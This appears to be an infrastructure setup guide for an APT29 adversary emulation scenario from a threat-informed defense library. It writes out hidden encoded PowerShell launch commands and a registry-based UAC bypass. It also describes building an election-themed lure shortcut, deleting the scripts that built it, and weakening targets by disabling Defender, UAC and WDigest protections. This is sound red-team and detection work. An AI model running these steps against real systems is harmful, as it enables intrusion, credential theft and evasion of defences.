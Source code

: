 # Scenario 2 Infrastructure

We hope to capture the general structure of what is reported to have been seen being used by APT29.  The infrastructure listed below is specific to Scenario 2.  The requirements described herein should be considered a bare minimum to execute the scenario.  If you have the time and resources to remain true-to-form, you may elect to stand up multiple of each of these servers, non-contiguous IP space, etc.  If you are not concerned with emulating APT29 to this degree, this level of effort is not necessary.  You could for instance, phish, serve payload, and exfil from/to the same server.

Please note that binary files hosted in [Scenario_1](Scenario_1.) and [Scenario_2](Scenario_2.) have been added to password protected zip files.  The password for these files is "malware."

---

## Emulation Team Infrastructure

1. Server running an offensive framework (we tested and executed using PoshC2 -- <https://github.com/nettitude/PoshC2>) capable of:
    - Executing native PowerShell commands
    - Loading and executing PowerShell scripts (.ps1)
    - Generating a DLL payload and an encoded PowerShell oneliner
    - Receiving and maintaining multiple callbacks at once
2. Online OneDrive Account (https://onedrive.live.com/)

---

## Emulation Team Infrastructure Configuration

#### A note about red team payloads

- Pre-compiled payloads are available in the [resources](Resources2.) directory; however, they are configured to connect back to static IP addresses 192.168.0.5 and 192.168.0.4.

### Generate an encoded PowerShell oneliner payload, then copy:

1. Just the encoded portion (ex: `WwBTAH...=`) into `$enc_ps variable` (4th line from bottom) in [schemas.ps1](schemas.ps1)
    - ex: `$enc_ps = "WwBTAH...=="`
2. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `CommandLineTemplate` variable (under `$ConsumerArgs` in 2nd paragraph) in [stepFifteen_wmi.ps1](stepFifteen_wmi.ps1)
    - ex: `CommandLineTemplate="powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`
3. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `-Value` variable (2nd line) in [stepFourteen_bypassUAC.ps1](stepFourteen_bypassUAC.ps1)
    - ex: `New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value "powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`

#### Generate DLL payload, then on a separate Windows host:

1. [CMD] > `certutil -encode [file].dll blob`
2. [CMD] > `powershell`
3. [PS] > `$blob = (Get-Content .\blob) -join ""; $blob > .\blob`
4. Open `blob` file in text editor
5. Delete new line at end of file and copy all (CTRL-A, CTRL-C)
6. Paste value (ex: `-----BEGIN CERTIFICATE-----...-----END CERTIFICATE-----`) into `$bin` variable (6th line) in `schemas.ps1`

#### Copy [payloads](Scenario_23.) to C2 server (wherever is appropriate for your C2 framework to have access to these files)

#### Update [stepFourteen_credDump.ps1](stepFourteen_credDump.ps1) -- directions are in file

#### Prepare initial access payloads:

1. Login as non-domain admin user
2. Copy over the following files onto the Desktop of the initial victim:

   - [2016_United_States_presidential_election_-_Wikipedia.html](2016_United_States_presidential_election_-_Wikipedia.html)
   - [make_lnk.ps1](make_lnk.ps1)
   - [schemas.ps1](schemas.ps1)

3. Copy over [MITRE-ATTACK-EVALS.HTML](MITRE-ATTACK-EVALS.HTML) into the Documents folder of the initial victim
4. Execute `make_lnk.ps1` (Right click > Run with PowerShell), this will generate `37486-the-shocking-truth-about-election-rigging-in-america.rtf.lnk`
5. Drag `make_lnk.ps1` and `schemas.ps1` to Recycle Bin and empty the Recycle Bin (Right click > Empty Recycle Bin)

---

## Target Infrastructure

1. 3 targets
    - 1 domain controller and 2 workstations
    - All Windows OS (tested and executed against Win10 1903)
    - Domain joined with at least 2 accounts (domain admin and another user)
2. Microsoft Outlook must be available locally on one of the victim workstations

---

## Target Infrastructure Configuration

#### For each of the three targets:

1. Login in as domain admin user
2. Ensure Windows Defender is off or configured to alert-only (<https://support.microsoft.com/en-us/help/4027187/windows-10-turn-off-antivirus-protection-windows-security>)
3. Change network type to Domain (<https://www.itechtics.com/change-network-type-windows-10/#2-_Setting_network_type_using_Windows_Registry>)
4. Set UAC to never notify (<https://articulate.com/support/article/how-to-turn-user-account-control-on-or-off-in-windows-10>)
5. Enable WinRM (<https://support.microsoft.com/en-us/help/555966>)
6. Enable UseLogonCredential in the WDigest Registry settings (<https://support.microsoft.com/help/2871997/microsoft-security-advisory-update-to-improve-credentials-protection-a>)

#### For the initial target (the workstation with Microsoft Outlook):

1. Login as non-domain admin user
2. Enable programatic access to Microsoft Outlook (<https://www.slipstick.com/developer/change-programmatic-access-options/>)
3. Open Outlook and sign in if necessary

---

## Additional Plan Resources

- [Intelligence Summary](Intelligence_Summary2.md)
- [Operations Flow](Operations_Flow2.md)
- [Emulation Plan](README4.md)
  - [Scenario 1 - Infrastructure](Infrastructure1.md)
  - [Scenario 1](README5.md)
  - [Scenario 2 - Infrastructure](Infrastructure2.md)
  - [Scenario 2](README6.md)
  - [YAML](yaml.)
- [Archive](Archive.)
- [Issues](https://github.com/center-for-threat-informed-defense/adversary_emulation_library/issues)
- [Change Log](CHANGE_LOG2.md)
